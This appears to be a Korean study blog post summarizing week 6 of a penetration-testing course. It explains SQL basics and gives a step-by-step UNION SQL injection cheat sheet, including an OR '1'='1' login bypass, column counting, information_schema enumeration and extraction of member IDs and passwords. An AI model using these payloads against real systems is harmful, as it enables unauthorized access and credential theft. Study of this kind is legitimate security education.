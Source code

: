 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 6주차 강의 정리 
author: leewoojin
date: 2025-05-11 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```


##  고민 방식

> 문제 발생 시!

1. 문제의 원인을 찾아라.  
2. 문제를 해결하라.  
3. 구글 검색은 영어 기반!  
   - ❌ google.kr  
   - ✅ google.com



##  SQL 인젝션은 어디에 사용되는가?

- **DB 데이터를 사용하는 곳**
- 그 데이터가 **화면에 출력되는가?**

| 구분 | 예시 |
|------|------|
| 출력됨 | 게시판 |
| 출력 안됨 | 로그인 |

```sql
-- 로그인 예시
SELECT * FROM member WHERE id = 'normaltic' AND pass = '1234'
-- SQLi 예시
' OR '1'='1'
```

##  주요 SQL 요소 정리

### 🔹 UNION
> `select * from board where idx='___'` 에서 SELECT를 한 번 더 건드릴 수 있음.

- 컬럼 수, 출력 위치가 정확히 맞아야 함.
- 짝이 맞지 않으면 **오류 발생**

### 🔹 ORDER BY
> 출력되는 데이터를 정렬할 때 사용

- `ORDER BY [컬럼명]` 또는 `ORDER BY [숫자 인덱스]`
- 인덱스가 컬럼 수보다 크면 오류

### 🔹 LIKE
> 부분 문자열 검색에 사용

```sql
WHERE title LIKE '%___%'
```

- `overwatch`, `over` → overwatch 검색됨  


##  UNION SQL Injection 치트시트

| 단계 | 설명 | 예시 |
|------|------|------|
| 1단계 | Injection 포인트 찾기 | `' OR '1'='1` → 참, `' OR '1'='2` → 거짓 |
| 2단계 | 컬럼 개수 찾기 | `' ORDER BY 1 --`, `' ORDER BY 2 --`, ... |
| 3단계 | 출력 컬럼 위치 확인 | `' UNION SELECT 1,2,3,4 --` |
| 4단계 | DB 이름 확인 | `' UNION SELECT 1,database(),3,4 --` |
| 5단계 | 테이블 이름 확인 | `FROM information_schema.tables WHERE table_schema='db명'` |
| 6단계 | 컬럼 이름 확인 | `FROM information_schema.columns WHERE table_name='member'` |
| 7단계 | 데이터 추출 | `' UNION SELECT 1,id,pass,4 FROM member --` |

> 📌 대부분 검색으로 해결 가능!  
> `mysql select column_name from information_schema.columns where ...` 식으로 찾아보자.


## 📚 과제

- [1] UNION SQL Injection 공부  
- [2] `doldol` 데이터만 출력하기 (하나만 출력되도록 구현)  
- [3] CTF 문제 풀기  
- [+] 웹 개발 (목표: 커뮤니티)  
  - 로그인  
  - 회원가입  
  - 마이페이지 (내 정보 보기)  
  - 게시판  
https://dobby-isfree.tistory.com/21